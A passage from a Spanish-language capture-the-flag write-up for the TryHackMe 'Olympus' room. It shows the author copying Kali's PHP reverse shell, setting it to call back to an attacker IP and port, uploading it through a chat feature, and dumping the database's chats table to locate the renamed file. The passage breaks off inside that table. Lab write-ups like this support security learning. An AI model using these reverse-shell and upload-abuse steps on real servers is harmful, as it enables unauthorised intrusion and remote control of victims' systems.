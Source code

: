 Vale, sospechas confirmadas. Nuevas tareas:

* Subir una shell inversa en php que utilizaremos para establecer una conexión entre el server y nuestro equipo local.

* Repetir el dump contra *chats* para obtener el nombre con el que se ha almacenado nuetro fichero con la shell.

* Arrancar una escucha en local con **netcat**

* Pedir el fichero al server

Vamos a ello. Lo primero es localizar en nuestro Kali el fichero que necesitamos, copiarlo a nuestro directorio de trabajo y editarlo.

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ tree /usr/share/webshells/
/usr/share/webshells/
[...]
|-- php
|   |-- findsocket
|   |   |-- findsock.c
|   |   `-- php-findsock-shell.php
|   |-- php-backdoor.php
|   |-- php-reverse-shell.php
|   |-- qsd-php-backdoor.php
|   `-- simple-backdoor.php
[...]

┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Olympus]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
```

Abrimos el fichero *php-reverse-shell.php* en nuestro editor y modificamos los parámetros necesarios

```
[...]
$ip = '10.18.xx.xx';  // CHANGE THIS    <- nuestra IP local
$port = 4321;       // CHANGE THIS      <- el puerto en el que estaremos escuchando
[...]
```

Subimos el fichero *php-reverse-shell.php* al server valiéndonos de la página de chat y volvemos a volcar *chats*

```
Database: olympus
Table: chats
[7 entries]
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| dt         | msg                                                                                                                                                             | file                                 | uname      |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------------------+------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | 47c3210d51761686f3af40a875eeaaea.txt | prometheus |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | <blank>                              | prometheus |
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. He's still working on it. | <blank>                              | zeus       |
```